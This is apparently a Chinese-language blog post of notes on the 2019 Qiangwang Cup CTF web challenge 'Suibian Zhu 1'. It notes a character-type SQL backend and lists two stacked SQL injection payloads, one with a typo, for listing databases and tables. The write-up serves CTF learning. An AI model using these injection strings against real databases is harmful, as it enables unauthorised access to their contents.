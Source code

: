 ```yaml
---
layout:     post
title:      强网杯2019 随便注1
date:       2024-08-03
tags: [Web, 强网杯2019, SQL注入, 随便注1]
comments: true
author: Whitea
toc: true
---
```


强网杯-2019-随便注1做题笔记



## 前言

强网杯-2019-随便注1的一个随笔

### 解题方法

测试发现是**字符型SQL后端语句**

先堆叠注入看看，查查库名和表名

- 爆库名：`0';show datanases#`
- 爆表名：`0';show tables#`

爆库如下：

<div align=center><img src="../images/2024/08/03/QWB2019/QWB2019_1.png" alt="QWB2019_1" border="0" width="70%" height="60%"></div>
